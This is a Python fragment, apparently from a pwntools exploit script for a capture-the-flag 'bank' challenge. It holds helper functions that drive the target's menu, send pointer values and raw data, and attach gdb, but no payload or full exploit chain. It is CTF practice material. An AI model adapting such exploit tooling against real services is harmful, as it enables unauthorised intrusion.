 ```python


def info() -> Tuple[bytes, bytes]:
    menu(6)
    sh.recvuntil(b"[Card Number]: ")
    dest = sh.recvuntil(b'\n', drop=True)
    sh.recvuntil(b"[Money]: ")
    money = sh.recvuntil(b'\n', drop=True)
    return dest, money


def deposit(money: Money):
    menu(2)
    sh.sendlineafter(b"How Much? ", to_bytes(money))


def transfer(who: Literal['admin', 'hacker', 'guest', 'ghost', 'abyss'], money: Money, *arg) -> Union[None, bytes]:

    def admin() -> bytes:
        sh.recvuntil(b"I think ")
        return sh.recvuntil(b' is', drop=True)

    def hacker(ptr: Money):
        sh.sendlineafter(b"hacker: Great!", to_bytes(ptr))

    def guest(content: AnyStr, is_line: bool = True):
        if is_line:
            sh.sendlineafter(b"data: ", to_bytes(content))
        else:
            sh.sendafter(b"data: ", to_bytes(content))

    def ghost(size_: Money):
        sh.sendlineafter(b":)", to_bytes(size_))

    def abyss(content: AnyStr):
        sh.sendline(to_bytes(content))
    menu(3)
    sh.sendlineafter(b"who?", who.encode())
    sh.sendlineafter(b"How much?", to_bytes(money))
    return locals().get(who)(*arg)


def put(money: Money):
    menu(4)
    sh.sendlineafter(b"How Much?", to_bytes(money))


def gdb_(times: int = None, arg: str = ''):
    gdb.attach(sh, arg)
    pause(times)

```
